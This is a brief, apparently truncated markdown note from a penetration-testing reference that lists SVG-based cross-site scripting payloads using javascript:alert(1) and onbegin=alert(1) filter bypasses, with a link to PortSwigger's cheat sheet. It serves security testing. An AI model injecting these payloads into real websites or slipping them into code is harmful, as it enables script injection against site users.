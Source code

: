## Something to keep in mind.

For complete list refer the burpsuite cheatsheet:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Unique Payloads:

- `<svg>`

  - `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`
  - `<svg><animatetransform onbegin=alert(1)>`

- change
